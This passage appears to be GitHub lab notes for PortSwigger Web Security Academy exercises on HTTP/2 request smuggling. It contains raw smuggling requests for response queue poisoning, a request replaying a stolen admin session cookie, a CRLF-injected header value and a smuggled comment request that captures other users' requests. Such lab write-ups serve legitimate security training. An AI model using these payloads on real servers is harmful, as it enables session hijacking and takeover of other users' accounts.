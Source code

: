 Do not forget to include the sequence "\r\n\r\n" at the end of the request to properly terminate a smuggled request.

### Response queue poisoning via H2.TE request smuggling

`POST / HTTP/2
Host: xxx.net
Transfer-Encoding: chunked

0

SMUGGLED`

`POST /x HTTP/2
Host: xxx.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: xxx.net`

"Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie."

`POST /x HTTP/2
Host: xxx.net
Transfer-Encoding: chunked

0

GET /admin HTTP/2
Host: xxx.net
Cookie: session=STOLEN-SESSION-COOKIE`

### Request smuggling via CRLF injection

Add a `foo` header and from `inspector` change the value of `foo` header like below

`HTTP/2

foo:bar\r\nTransfer-Encoding: chunked`

After applying the `Transfer-Encoding` header the request will be `kettled` so you cant see other headers, you can only append content to body like below You request has to look like below

![https://user-images.githubusercontent.com/45040001/194731138-30e61723-6f32-4800-863a-cd4fcba39ed7.png](https://user-images.githubusercontent.com/45040001/194731138-30e61723-6f32-4800-863a-cd4fcba39ed7.png)

`0

POST /post/comment HTTP/1.1
Host: 0a5e008f045ff87bc06fc9ae00630039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 910
Cookie: session=dUB4Rv3FqQDaRnWPsJ7X99fzDVGYLGvy;

csrf=m6zNlm811zQtwcOUpHr7ShoU6b4IwAHA&postId=3&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=aaa`
